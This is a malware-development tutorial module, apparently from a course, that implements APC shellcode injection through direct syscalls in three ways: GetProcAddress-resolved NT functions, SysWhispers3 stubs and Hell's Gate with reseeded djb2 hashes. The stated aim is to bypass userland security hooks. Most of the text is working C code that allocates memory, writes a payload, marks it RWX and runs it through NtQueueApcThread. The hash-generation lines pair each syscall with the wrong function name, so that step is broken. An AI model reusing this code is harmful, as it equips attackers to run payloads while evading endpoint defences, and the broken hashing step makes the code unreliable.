


Introduction
This module implements the APC Injection technique using direct syscalls, replacing WinAPIs with their syscall equivalent. Memory allocation and writing the payload will be done using NtAllocateVirtualMemory, NtProtectVirtualMemory and NtWriteVirtualMemory which were already discussed in the reimplementation of classic injection. The remaining syscall that will be explained is NtQueueApcThread.
QueueUserAPC is replaced with NtQueueApcThreadNtQueueApcThread
This is the resulting syscall from the QueueUserAPC WinAPI. NtQueueApcThread is shown below.
NTSTATUS NtQueueApcThread(
IN HANDLE ThreadHandle, // A handle to the thread to run the specified APC
IN PIO_APC_ROUTINE ApcRoutine, // Pointer to the application-supplied APC function to be executed
IN PVOID ApcRoutineContext OPTIONAL, // Pointer to a parameter (1) for the APC (set to NULL)
IN PIO_STATUS_BLOCK ApcStatusBlock OPTIONAL, // Pointer to a parameter (2) for the APC (set to NULL)
IN ULONG ApcReserved OPTIONAL // Pointer to a parameter (3) for the APC (set to NULL)
);The first two parameters are self-explanatory. The remaining three, ApcRoutineContext, ApcStatusBlock and ApcReserved are used as parameters for the APC function, ApcRoutine.
Creating An Alertable Thread
Since the APC Injection technique requires a thread in an alertable state, this will be provided using the CreateThread WinAPI. The AlterableFunction function will be called by the sacrificial thread.
VOID AlterableFunction() {
HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
MsgWaitForMultipleObjectsEx(
1,
&hEvent,
INFINITE,
QS_HOTKEY,
MWMO_ALERTABLE
);
}Implementation Using GetProcAddress and GetModuleHandle
A Syscall structure is created and initialized using InitializeSyscallStruct, which holds the addresses of the syscalls used, as shown below.
// A structure used to keep the syscalls used
typedef struct _Syscall {
fnNtAllocateVirtualMemory pNtAllocateVirtualMemory;
fnNtProtectVirtualMemory pNtProtectVirtualMemory;
fnNtWriteVirtualMemory pNtWriteVirtualMemory;
fnNtQueueApcThread pNtQueueApcThread;
}Syscall, * PSyscall;
// Function used to populate the input 'St' structure
BOOL InitializeSyscallStruct(OUT PSyscall St) {
HMODULE hNtdll = GetModuleHandle(L"NTDLL.DLL");
if (!hNtdll) {
printf("[!] GetModuleHandle Failed With Error : %d \n", GetLastError());
return FALSE;
}
St->pNtAllocateVirtualMemory = (fnNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
St->pNtProtectVirtualMemory = (fnNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
St->pNtWriteVirtualMemory = (fnNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
St->pNtQueueApcThread = (fnNtQueueApcThread)GetProcAddress(hNtdll, "NtQueueApcThread");
// check if GetProcAddress missed a syscall
if (St->pNtAllocateVirtualMemory == NULL || St->pNtProtectVirtualMemory == NULL || St->pNtWriteVirtualMemory == NULL || St->pNtQueueApcThread == NULL)
return FALSE;
else
return TRUE;
}Next, the ApcInjectionViaSyscalls function will be responsible for allocating, writing and executing the payload, pPayload, in the target process, hProcess. It will use the sacrificial thread's handle, hThread. The function returns FALSE if it fails to execute the payload and TRUE if it succeeds.
BOOL ApcInjectionViaSyscalls(IN HANDLE hProcess, IN HANDLE hThread, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
Syscall St = { 0 };
NTSTATUS STATUS = NULL;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
// Initializing the 'St' structure to fetch the syscall's addresses
if (!InitializeSyscallStruct(&St)) {
printf("[!] Could Not Initialize The Syscall Struct \n");
return FALSE;
}
// Allocating memory
if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
//--------------------------------------------------------------------------
// Writing the payload
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Changing the memory's permissions to RWX
if ((STATUS = St.pNtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Executing the payload via NtQueueApcThread
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
if ((STATUS = St.pNtQueueApcThread(hThread, pAddress, NULL, NULL, NULL)) != 0) {
printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
return TRUE;
}Implementation Using SysWhispers
The implementation here uses SysWhispers3 to bypass userland hooks via direct syscalls. The following command is used to generate the required files for this implementation.
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtAllocateVirtualMemory,NtProtectVirtualMemory,NtWriteVirtualMemory,NtQueueApcThread -o SysWhispers -vThree files are generated: SysWhispers.h, SysWhispers.c and SysWhispers-asm.x64.asm. The next step is to import these files into Visual Studio as demonstrated previously. ApcInjectionViaSyscalls is shown below.
BOOL ApcInjectionViaSyscalls(IN HANDLE hProcess, IN HANDLE hThread, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
Syscall St = { 0 };
NTSTATUS STATUS = NULL;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
// Allocating memory
if ((STATUS = NtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
//--------------------------------------------------------------------------
// Writing the payload
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
if ((STATUS = NtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Changing the memory's permissions to RWX
if ((STATUS = NtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Executing the payload via NtQueueApcThread
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
if ((STATUS = NtQueueApcThread(hThread, pAddress, NULL, NULL, NULL)) != 0) {
printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
return TRUE;
}Implementation Using Hell's Gate
The last implementation for this module is using Hell's Gate. First, ensure that the same steps done to set up the Visual Studio project with SysWhispers3 are done here too. Specifically, enabling MASM and modifying the properties to set the ASM file to be compiled using the Microsoft Macro Assembler.
Updating The VX_TABLE Structure
typedef struct _VX_TABLE {
VX_TABLE_ENTRY NtAllocateVirtualMemory;
VX_TABLE_ENTRY NtWriteVirtualMemory;
VX_TABLE_ENTRY NtProtectVirtualMemory;
VX_TABLE_ENTRY NtQueueApcThread;
} VX_TABLE, * PVX_TABLE;Updating Seed Value
A new seed value will be used to replace the old one to change the hash values of the syscalls. The djb2 hashing function is updated with the new seed value below.
DWORD64 djb2(PBYTE str) {
DWORD64 dwHash = 0x77347734DEADBEEF; // Old value: 0x7734773477347734
INT c;
while (c = *str++)
dwHash = ((dwHash << 0x5) + dwHash) + c;
return dwHash;
}The following printf statements should be added to a new project to generate the djb2 hash values.
printf("#define %s%s 0x%p \n", "NtAllocateVirtualMemory", "_djb2", (DWORD64)djb2("NtCreateSection"));
printf("#define %s%s 0x%p \n", "NtWriteVirtualMemory", "_djb2", djb2("NtMapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtProtectVirtualMemory", "_djb2", djb2("NtUnmapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtQueueApcThread", "_djb2", djb2("NtClose"));
printf("#define %s%s 0x%p \n", "NtCreateThreadEx", "_djb2", djb2("NtCreateThreadEx"));Once the values are generated, add them to the start of the Hell's Gate project.
#define NtAllocateVirtualMemory_djb2 0x7B2D1D431C81F5F6#define NtWriteVirtualMemory_djb2 0x54AEE238645CCA7C#define NtProtectVirtualMemory_djb2 0xA0DCC2851566E832#define NtQueueApcThread_djb2 0x331E6B6B7E696022Updating The Main Function
The main function must be updated to use the ApcInjectionViaSyscalls function instead of the payload function. The function will use the above-generated hashes as shown below.
BOOL ApcInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN HANDLE hProcess, IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
Syscall St = { 0 };
NTSTATUS STATUS = NULL;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
// Allocating memory
HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
//--------------------------------------------------------------------------
// Writing the payload
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
HellsGate(pVxTable->NtWriteVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Changing the memory's permissions to RWX
HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Executing the payload via NtQueueApcThread
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
HellsGate(pVxTable->NtQueueApcThread.wSystemCall);
if ((STATUS = HellDescent(hThread, pAddress, NULL, NULL, NULL)) != 0) {
printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
return TRUE;
}Remote Injection
It's possible to use the ApcInjectionViaSyscalls function for remote process injection but to do so a suspended process must be created. This approach was discussed in the Early Bird APC Queue Code Injection module.
Demo
Using SysWhispers implementation.

Using Hell's Gate implementation.
